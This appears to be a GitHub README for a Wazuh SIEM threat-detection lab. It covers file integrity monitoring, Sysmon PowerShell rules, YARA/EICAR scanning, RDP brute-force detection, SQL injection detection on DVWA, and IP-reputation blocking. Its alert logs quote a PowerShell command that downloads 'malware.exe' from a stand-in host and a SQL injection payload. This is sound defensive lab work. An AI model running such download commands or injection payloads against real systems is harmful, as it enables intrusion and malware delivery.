


# Wazuh Threat Detection & CTI Lab

## Project Overview
This project demonstrates how to build a **Threat Detection & Monitoring Lab** using **Wazuh SIEM**, Windows 11 endpoint, and ParrotOS attacker machine.  
The goal is to simulate attacks, integrate threat intelligence, and detect malicious activity in real time.

---

## Lab Architecture
- **Wazuh Manager (OVA)** – running on VMware
- **Windows 11 VM (Agent Installed)** – monitored endpoint
- **ParrotOS VM (Attacker Machine)** – used for brute force & malware simulation
- **Host Machine** – running Wazuh Dashboard

 

---

## Use Cases Implemented

### 1. File Integrity Monitoring (FIM)
File Integrity Monitoring (FIM) is crucial for maintaining a system's security and integrity by detecting and recognizing unauthorized modifications to files. 


- Monitored `C:\Windows\System32\drivers\etc\hosts` on Windows 11

  Configuration:
  ```
  <directories recursion_level="0" check_all="yes" report_content="yes" realtime="yes">%WINDIR%\System32\drivers\etc</directories>
  
- Detected changes and generated alerts

  ```
  Sep 25, 2025 @ 10:31:00.991
  agent.name: windows
  File: 'c:\windows\system32\drivers\etc\hosts'
  syscheck.event: modified
  rule.id: 550
  rule.description: Integrity checksum changed
  rule.level: 7
  mitre

   

---

### 2. Sysmon + Wazuh Integration
Sysmon provides detailed system activity logging, while Wazuh processes and analyzes these logs for threat detection and incident response.
- Installed and configured **Sysmon** on Windows agent
- Forwarded process creation & PowerShell logs to Wazuh
- Created custom PowerShell Detection Rules
- Detected suspicious web download activity

```
Sep 26, 2025 @ 11:07:23.871
agent.name: windows
command: \"C:\\WINDOWS\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\" -Command \"(New-Object Net.WebClient).DownloadString('http://example.com/malware.exe')\"
rule.description: "Suspicious PowerShell: Web download activity detected"
rule.id: 100004
rule.level: 12
mitre.technique: PowerShell(T1059.001), Ingress Tool Transfer(T1105), Web Protocols(T1071.001)
```
 

---

### 3. Malware Detection with YARA
- Configured YARA and YARA rules in wazuh agent and server
- Configured File Integrity Monitoring
- Integrated YARA with Wazuh Active Response
- Tested with **EICAR test malware** for malware detection
- Wazuh agent triggered FIM → YARA scan executed → Malware detected
```
Sep 29, 2025 @ 11:06:03.642
agent.name: windows
rule.id: 108001
rule.level: 12
rule.description: File "c:\users\nihal\downloads\eicar\eicar.com" is a positive match. Yara rule: SUSP_Just_EICAR_RID2C24

```


---

### 4. Brute Force Detection
- Used **Hydra** from ParrotOS to brute-force RDP login in windows 11
- Wazuh generated **Brute Force Detection Alert** and blocked user account
```
Oct 4, 2025 @ 11:15:23.599
agent.name: windows
rule.description: User account locked out (multiple login errors)
rule.id: 60115
rule.level: 9
Mitre Technique: Brute Force(T1110), Account Access Removal(T1531)
```
  

---
### 5. SQL injection detection
- Deployed a deliberately vulnerable web app (DVWA) on windows 11.
- Collected webserver logs (Apache) and PHP error logs with the Wazuh agent.
- Tested by submitting injection payloads through the DVWA app and confirm Wazuh alerts.

```
Oct 8, 2025 @ 10:30:39.679
agent.name: windows
rule.description: SQL injection attempt
data.url: "/DVWA/vulnerabilities/fi/?page=1%27%20or%20%271%27=%271--"
rule.id: 31164
rule.level: 6
Mitre Technique: Process Injection(T1055), Exploit Public-Facing Application(T1190)
```
  


---

### 6. Blocking a known malicious actor 
- Downloaded and configured the Alienvault IP reputation database in wazuh server
- Appended the IP address of the attacker endpoint(ParrotOS) to the IP reputation database
- Created a custom rule and configured the Active Response module to block the malicious IP address
- Connection from malicious IP triggered alerts
```
Oct 8, 2025 @ 11:46:47.457
agent.name: windows
rule.description: IP address found in AlienVault reputation database.
rule.id: 657, 100100
rule.level: 10
```
  

---

## Repository Structure
```bash
wazuh-cti-lab/
│
├── docs/               # Screenshots & diagrams
├── wazuh-configs/      # Configurations & custom rules
└── reports/            # Final project report
